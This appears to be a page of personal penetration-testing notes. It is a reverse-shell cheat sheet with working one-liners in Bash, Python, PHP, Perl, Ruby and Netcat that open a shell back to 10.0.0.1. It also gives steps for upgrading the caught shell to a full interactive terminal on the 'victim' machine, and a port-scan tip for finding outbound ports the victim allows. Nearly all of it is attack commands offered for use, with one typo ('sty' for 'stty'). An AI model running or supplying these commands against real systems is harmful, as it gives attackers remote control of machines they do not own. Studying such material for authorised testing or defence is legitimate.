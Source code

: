 ## Reverse shell

**1. Reverse shell list**  

	Bash  
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

	Python  
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	Php  
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

	Perl  
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

	Ruby  
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat  
	nc -e /bin/sh 10.0.0.1 1234
	(Netcat without -e flag)
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 

**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export SHELL=BASH          //on victim machine   
export TERM=xterm-256color //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**TBC. Check which port is allowed for reverse shell** 

	sometime certain out going traffic is blocked by your victim   
	nc -nvv -w 1 -z "Your IP Address" 1-100  
	open Wireshark  
